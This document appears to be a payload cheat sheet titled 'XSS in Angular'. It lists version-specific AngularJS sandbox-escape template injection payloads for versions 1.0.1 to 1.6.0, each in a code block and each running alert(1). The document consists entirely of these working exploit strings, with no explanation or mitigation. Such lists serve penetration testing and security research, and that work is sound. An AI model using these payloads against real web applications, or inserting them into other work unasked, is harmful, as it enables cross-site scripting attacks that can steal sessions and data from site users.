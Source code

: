 ## XSS in Angular
Angular 1.6.0
```
{{0[a='constructor'][a]('alert(1)')()}}
```

Angular 1.5.9
```
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

Angular 1.5.0 - 1.5.8
```
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

Angular 1.4.0 - 1.4.9
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

Angular 1.3.20
```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

Angular 1.3.19
```
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;
    $eval('x=alert(1)//');
}}
```

Angular 1.3.3 - 1.3.18
```
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

Angular 1.3.1 - 1.3.2
```
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf;
    $eval('x=alert(1)//');
}}
```

Angular 1.3.0
```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

Angular 1.2.24 - 1.2.29
```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

Angular 1.2.19 - 1.2.23
```
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

Angular 1.2.6 - 1.2.18
```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

Angular 1.2.2 - 1.2.5
```
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

Angular 1.2.0 - 1.2.1
```
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

Angular 1.0.1 - 1.1.5
```
{{constructor.constructor('alert(1)')()}}
```
